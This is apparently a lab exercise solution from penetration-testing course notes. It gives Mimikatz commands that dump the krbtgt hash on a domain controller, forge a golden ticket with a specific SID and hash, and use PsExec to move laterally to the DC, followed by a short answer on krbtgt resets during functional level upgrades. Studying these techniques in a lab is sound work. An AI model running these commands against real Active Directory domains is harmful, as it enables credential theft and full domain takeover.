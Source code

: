 ### 21.5.1.1 Exercises
#### 1. Repeat the steps shown above to dump the krbtgt password hash and create and use a golden ticket.

1. On the DC logged in as a Domain Admin, open Mimikatz in an elevated prompt, dump the password hashes and record the hash of `krbtgt`

   ```powershell
   privilege::debug
   lsadump::lsa /patch
   ```

   ![image-20200729222531936](.21.5.1.1.assets/image-20200729222531936.png)

2. From the 'compromised' Windows 10 machine, run Mimikatz from a prompt, clear the Kerberos tickets and create the Golden Ticket using a made up user:

   ```powershell
   kerberos::purge
   kerberos::golden /user:docrobot /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /krbtgt:fc274a94b36874d2560a7bd332604fab /ptt
   ```

   ![image-20200729222628328](.21.5.1.1.assets/image-20200729222628328.png)

3. Launch a new command prompt from Mimikatz

   ```powershell
   misc::cmd
   ```

   ![image-20200729223201628](.21.5.1.1.assets/image-20200729223201628.png)

4. From this command prompt, execute a lateral movement using PSExec to connect to the DC as the fake user `docrobot`

   ```powershell
   psexec.exe \\dc01 cmd.exe
   ```

   ![image-20200729223325616](.21.5.1.1.assets/image-20200729223325616.png)

5. Verify group membership of fake user
   ![image-20200729223350462](.21.5.1.1.assets/image-20200729223350462.png)

#### 2. Why is the password hash for the krbtgt account changed during a functional level upgrade from Windows 2003 to Windows 2008?

It's because AES128/AES256 cyphers are added in SFL 2008 and the upgrade forces a reset of the krbtgt password.  As a result of this, the hash changes as well.  

References:  

https://centrify.force.com/support/Article/Basics-Understanding-how-Active-Directory-Functional-Levels-affect-Centrified-Systems-22077/

https://techcommunity.microsoft.com/t5/exchange-team-blog/considering-updating-your-domain-functional-level-from-windows/ba-p/611208#

